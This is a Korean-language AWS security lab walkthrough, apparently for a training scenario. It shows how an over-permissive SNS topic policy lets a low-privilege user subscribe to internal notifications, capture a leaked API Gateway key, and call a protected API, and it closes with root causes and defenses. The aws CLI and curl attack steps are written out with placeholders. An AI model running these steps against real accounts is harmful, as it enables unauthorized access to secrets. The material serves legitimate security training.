

# 04. SNS Secrets

- 난이도: Easy
- 핵심: 과도한 SNS 구독 권한으로 내부 Message의 API Key를 받고 보호된 API를 호출합니다.

## Attack Path



## 1. Topic과 Policy 확인

```bash
PROFILE=<PROFILE>
REGION=<REGION>

aws sns list-topics \
  --profile "$PROFILE" \
  --region "$REGION"

aws sns get-topic-attributes \
  --topic-arn <TOPIC_ARN> \
  --profile "$PROFILE" \
  --region "$REGION"
```

Topic Policy에서 현재 Principal이 `sns:Subscribe`를 실행할 수 있는지 확인합니다. Message를 발행할 수 없어도 구독할 수 있다면 내부 Notification을 읽을 수 있습니다.

## 2. 허가된 Email Endpoint 구독

```bash
aws sns subscribe \
  --topic-arn <TOPIC_ARN> \
  --protocol email \
  --notification-endpoint <LAB_EMAIL> \
  --return-subscription-arn \
  --profile "$PROFILE" \
  --region "$REGION"
```

수신함에서 Subscription을 확인합니다. Scenario의 Scheduled Publisher가 보낸 Message에서 API Gateway Key를 확인하되 Repository에는 저장하지 않습니다.

API Gateway Key는 AWS Access Key와 다릅니다.

```text
AWS Access Key  → AWS API 요청의 Principal 인증
API Gateway Key → Usage Plan, Quota와 요청 식별에 주로 사용
```

## 3. API 구조 열거

```bash
aws apigateway get-rest-apis \
  --profile "$PROFILE" \
  --region "$REGION"

aws apigateway get-stages \
  --rest-api-id <API_ID> \
  --profile "$PROFILE" \
  --region "$REGION"

aws apigateway get-resources \
  --rest-api-id <API_ID> \
  --profile "$PROFILE" \
  --region "$REGION"
```

다음 형식으로 URL을 구성합니다.

```text
https://<API_ID>.execute-api.<REGION>.amazonaws.com/<STAGE>/<RESOURCE>
```

## 4. Key 적용 전후 비교

```bash
curl -i "<API_URL>"

curl -sS "<API_URL>" \
  -H "x-api-key: <API_GATEWAY_KEY>" |
  jq .
```

Key 없이 거부되고 유출된 Key로 Scenario Data를 읽을 수 있다면 공격 경로가 검증됩니다.

## Root Cause

1. 저권한 Principal이 내부 SNS Topic을 구독할 수 있었습니다.
2. Publisher가 API Key 원문을 Message에 포함했습니다.
3. API Key만으로 민감한 API 응답에 접근할 수 있었습니다.

## Defense

- Topic Policy의 `Subscribe`, `Publish` Principal과 Protocol을 제한합니다.
- Message에는 Secret 값이 아닌 Secret ARN이나 Rotation Event만 넣습니다.
- 중요한 API에는 IAM, JWT·Cognito Authorizer 같은 실제 인증·인가를 적용합니다.
- 예상하지 않은 Subscription 생성과 API Key 사용을 Monitoring합니다.
